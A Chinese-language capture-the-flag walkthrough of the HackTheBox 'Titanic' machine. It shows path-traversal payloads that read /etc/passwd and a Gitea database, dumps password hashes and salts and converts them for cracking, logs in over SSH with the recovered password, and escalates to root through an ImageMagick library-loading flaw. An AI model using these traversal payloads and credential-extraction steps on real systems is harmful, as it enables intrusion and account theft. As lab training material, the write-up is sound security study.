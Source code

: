 # Titanic
### hackmd link:[hackmd](https://hackmd.io/@yeyeye618/Bye_-xZllg)
![image](https://hackmd.io/_uploads/SJ9xm4-Hle.png)
---

nmap 掃描結果:
![image](https://hackmd.io/_uploads/S1BY-xbexe.png)
有開 ssh port

用 gobuster 掃描，發現有指定網域
![image](https://hackmd.io/_uploads/Hy0R7g-gee.png)
要改 /etc/hosts

```
echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts
```

這樣就看到頁面了
![image](https://hackmd.io/_uploads/S1iC7EZBgx.png)
有訂票的功能
![image](https://hackmd.io/_uploads/SJQLNEbrxx.png)
會下載訂票的輸入內容

開 burpsuite 看
找到負責下載 json 的 request
![image](https://hackmd.io/_uploads/SJSr2x1Wgx.png)

嘗試 LFI 
`../../../../etc/passwd`
![image](https://hackmd.io/_uploads/ryR9hx1blx.png)
成功

```
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```
這兩個有 bash 的權限

撈撈看其他的
`../../../../etc/shadow`
![image](https://hackmd.io/_uploads/rJZYpx1-gx.png)
沒有

看看環境
`../../../../etc/environment`
![image](https://hackmd.io/_uploads/Hke8rIk-lx.png)

看看domain
`../../../../etc/hosts`
![image](https://hackmd.io/_uploads/HkD_UIJWeg.png)
看到有 dev.titanic.htb 這個 domain

要再加上 domain
![image](https://hackmd.io/_uploads/Sk7XOLy-gg.png)

到 dev.titanic.htb 看看 
就出現這個 gitea
![image](https://hackmd.io/_uploads/ryeduL1bxl.png)

看起來有前後端
![image](https://hackmd.io/_uploads/Hkj6_8yZeg.png)

前端就簡單的 python flask 框架
![image](https://hackmd.io/_uploads/By9NKIJ-lg.png)
還有兩個json檔
![image](https://hackmd.io/_uploads/BkI5oUJbeg.png)



後端有 gitea 跟 mysql 的 docker 設定檔
![image](https://hackmd.io/_uploads/HyM2FUy-xx.png)

gitea:
![image](https://hackmd.io/_uploads/BJqHoLkbee.png)
有一個 /home/developer/gitea/data 的 path (容器)

mysql:
![image](https://hackmd.io/_uploads/B1OmqUk-gl.png)

看到了 mysql 的 root password

研究 gitea 配置
[gitea](https://docs.gitea.com/)

查詢config檔相關路徑
![image](https://hackmd.io/_uploads/Hyn-sk5bgl.png)
![image](https://hackmd.io/_uploads/S11Ei15bee.png)
嘗試下載/conf/app.ini
```
../../../../home/developer/gitea/data/conf/app.ini
```
![image](https://hackmd.io/_uploads/H14bZlcbxx.png)
失敗

想不到為啥

看到這個
![image](https://hackmd.io/_uploads/B1o5IVZHex.png)
volumes 再加上 container 試試

```
../../../../home/developer/gitea/data/gitea/conf/app.ini
```

成功!!
![image](https://hackmd.io/_uploads/rJPmEe5Wgx.png)

config 有寫 database 資料的路徑
![image](https://hackmd.io/_uploads/SymwEx5Wgx.png)
而且寫了 database 是用 sqlite


撈撈看
```
../../../../home/developer/gitea/data/gitea/gitea.db
```
![image](https://hackmd.io/_uploads/Hy6P_l9bxg.png)

很多東西
在找 admin 的時候看到奇怪的東西
![image](https://hackmd.io/_uploads/SJEDsxqZxe.png)

看起來是使用者的帳號內容，比較難看懂

把結果抓下來用 sqlite 打開看看
![image](https://hackmd.io/_uploads/HkVAiITMxg.png)
找 user 這個 table
![image](https://hackmd.io/_uploads/HkbQ3I6Mge.png)
有這兩個使用者

```
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732
d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|
0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US|
|1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|
root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0

2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a543
85ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|
0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US|
|1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|
developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0

```
看看 user 的欄位名稱
![image](https://hackmd.io/_uploads/HyMgAUaMxg.png)
可以看到第 7、8 分別是 密碼 hash 值跟 hash 的演算法
還有 17 是 salt 值
分別是
```
hash_algo = pbkdf2$50000$50

// administrator
passwd = 
cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980
c47c5d017136
salt = 2d149e5fbd1b20cf31db3e3c6a28fc9b

// developer
passwd = e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf16826192634
44ea594cfb56
salt = 8bf3e3452b78544f8bee9400d6936d34
```
轉成對應格式
```
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAY
qOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=

developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEB
rfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

![image](https://hackmd.io/_uploads/ryT0PH4mxx.png)
取的了 developer 的密碼

之前 nmap 有掃到 ssh 的 port
連連看
```
$ ssh developer@10.10.11.55
developer@10.10.11.55's password: 25282528
```
![image](https://hackmd.io/_uploads/HJoD3BVmlx.png)
成功

路徑下有 user flag
![image](https://hackmd.io/_uploads/ryCrtBEXee.png)
```
c592e701fd6103eaf353f77298b694ad
```

找找看 root flag
![image](https://hackmd.io/_uploads/r1oWNiMEgl.png)
看起來是這個在 `/root` 底下的，但還需要提權到 admin

沒有什麼想法，我就找找專案的資料夾

專案資料夾:
![image](https://hackmd.io/_uploads/HJr53KMNgg.png)
有個 `identify_images.sh`

![image](https://hackmd.io/_uploads/rkcGTFfVeg.png)
會把 jpg 用 ImageMagick 這個工具加到 metadata.log 裡面

![image](https://hackmd.io/_uploads/H15Wlcf4gg.png)
magick 的版本是 7.1.1-35
有相關的 CVE
![image](https://hackmd.io/_uploads/r1RbGqzVll.png)

具體的漏洞點在於 magick 在 `MAGICK_CONFIGURE_PATH`(參數路徑) 和 `LD_LIBRARY_PATH` (動態涵式庫) 的設定出現錯誤，多了「 `::` 」 的符號，這會讓 magick 從當前目錄調用 `LD_LIBRARY_PATH` 和 `MAGICK_CONFIGURE_PATH` 

所以，攻擊者可以在調用 magick 的目錄注入 有問題的`.xml`檔或著是`.so`檔 來讓 magick 錯誤執行有問題的程式碼
相關漏洞可以看
[CVE-2024-41817 Detail](https://nvd.nist.gov/vuln/detail/cve-2024-41817)
[Arbitrary Code Execution in AppImage version ImageMagick](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

在 `/opt/app/static/assets/images/`目錄下寫一個假的動態函式庫

![image](https://hackmd.io/_uploads/HJ3Kgsf4ee.png)

結果在寫完之後 `identify_images.sh` 就被執行了，就成功撈到 root flag
```
ec408f0d6c868b7698e6ea81330eb7c6
```
